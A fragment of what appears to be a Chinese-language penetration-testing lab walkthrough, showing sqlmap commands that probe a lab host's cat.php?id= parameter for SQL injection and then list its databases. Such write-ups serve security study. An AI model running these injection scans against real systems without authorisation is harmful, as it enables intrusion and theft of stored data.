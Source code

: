     ![](14.PNG)
- 使用sqlmap查找注入点
    ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1"```
    ![](15.PNG)
- ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1" --dbs```获取数据库